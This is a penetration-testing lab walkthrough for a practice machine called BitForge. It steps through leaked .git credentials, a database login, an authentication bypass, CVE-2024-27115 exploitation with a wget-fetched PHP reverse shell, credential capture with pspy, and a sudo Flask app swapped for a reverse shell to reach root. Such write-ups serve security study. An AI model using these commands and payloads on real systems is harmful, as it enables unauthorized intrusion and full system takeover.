We start by obtaining the password for the publicly exposed MySQL instance by downloading the exposed .git repository on port 80 and reading the logs.
wget --mirror -I .git http://bitforge.lab/.git/  git log git show 18833b811e967ab8bec631344a6809aa4af59480 We then log in to the database and obtain the hash and key of the user admin for the Simple Online Planning service. If we read this blogpost: https://blog.quarkslab.com/pwn-everything-bounce-everywhere-all-at-once-part-2.html, we find that the login page is vulnerable to SQLi. We can bypass the authentication logic by logging in with the key|hash values as the password.
mysql -h 192.168.245.186 -u BitForgeAdmin -p --disable-ssl  We log in and change the admin password to Password123.  We obtain a reverse shell as www-data by exploiting CVE-2024-27115 (EDB-ID 52082). We use the RCE vulnerability to transfer a php reverse shell in the /var/www/bitforge.lab/public_html/rev.php directory of the website. python3 52082.py -t http://plan.bitforge.lab/www/ -u admin -p Password123 wget http://192.168.45.239/rev.php -O /var/www/bitforge.lab/public_html/rev.php   We obtain a shell after visiting the uploaded file address on the website.  We then notice an SQL dump file in a folder named backup in /opt. We assume a job is running as a backup. We watch for any credentials being passed in commands using pspy and find credentials for user jack. We log in as the user with the su command. wget http://192.168.45.239/pspy64 chmod +x pspy64 ./pspy64  su jack  We then check what commands we are allowed to run as sudo. We find "(root) NOPASSWD: /usr/bin/flask_password_changer" in the result. sudo -l  If we print the contents of the script we are allowed to run as root, we find that it is first entering the /opt/password_change_app directory which we control and then running flask. cat /usr/bin/flask_password_changer  We change the app.py file to a reverse shell script, run the command and visit the /reverse_shell endpoint at localhost port 9000 to obtain a root shell. The reverse shell script is a slightly modified version of the script found here: https://freelancepentest.com/2025/02/20/a-simple-reverse-shell-in-flask/. mv app.py app.old wget http://192.168.45.239/app.py sudo /usr/bin/flask_password_changer  curl 127.0.0.1:9000/reverse_shell 